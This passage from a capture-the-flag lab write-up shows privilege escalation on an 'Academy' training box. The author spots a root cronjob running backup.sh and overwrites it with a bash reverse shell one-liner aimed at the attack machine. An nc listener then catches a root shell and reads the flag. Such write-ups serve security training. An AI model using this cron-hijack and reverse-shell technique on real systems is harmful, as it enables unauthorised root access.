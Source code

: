 ```
2025/06/18 02:14:01 CMD: UID=0     PID=20407  | /bin/bash /home/grimmie/backup.sh
2025/06/18 02:14:01 CMD: UID=0     PID=20408  | /bin/bash /home/grimmie/backup.sh
2025/06/18 02:14:01 CMD: UID=0     PID=20409  | /bin/bash /home/grimmie/backup.sh
2025/06/18 02:15:01 CMD: UID=0     PID=20410  | /usr/sbin/CRON -f
2025/06/18 02:15:01 CMD: UID=0     PID=20411  | /usr/sbin/CRON -f
2025/06/18 02:15:01 CMD: UID=0     PID=20412  | /bin/sh -c /home/grimmie/backup.sh
2025/06/18 02:15:01 CMD: UID=0     PID=20413  | /bin/bash /home/grimmie/backup.sh
2025/06/18 02:15:01 CMD: UID=0     PID=20414  | /bin/bash /home/grimmie/backup.sh
2025/06/18 02:15:01 CMD: UID=0     PID=20415  | /bin/bash /home/grimmie/backup.sh
```



The script runs automatically every minute. We can now exploit the circumstance
that it is run by `root` (UID=0). Googling for `bash reverse shell one liner`
shows this [Reverse Shell Cheat Sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
where we can find reverse shell one-liners in a lot of different languages. We
copy the bash one-liner into the `backup.sh` script, enter the correct IP address
(our attack machine):

```
grimmie@academy:~$ cat backup.sh
#!/bin/bash

bash -i >& /dev/tcp/10.0.2.5/8080 0>&1
```

Finally, we start another listener on the attack machine using port 8080 and
wait for the reverse shell to be executed as `root` by the cronjob.



```
┌──(kali㉿kali)-[~/Capstone/Academy]
└─$ nc -nvlp 8080
listening on [any] 8080 ...
connect to [10.0.2.5] from (UNKNOWN) [10.0.2.15] 48962
bash: cannot set terminal process group (20717): Inappropriate ioctl for device
bash: no job control in this shell
root@academy:~# whoami
whoami
root
root@academy:~# cd /root
cd /root
root@academy:~# ls
ls
flag.txt
root@academy:~# cat flag.txt
cat flag.txt
Congratz you rooted this box !
Looks like this CMS isn't so secure...
I hope you enjoyed it.
If you had any issue please let us know in the course discord.

Happy hacking !
root@academy:~# 
```



**Mission accomplished.**




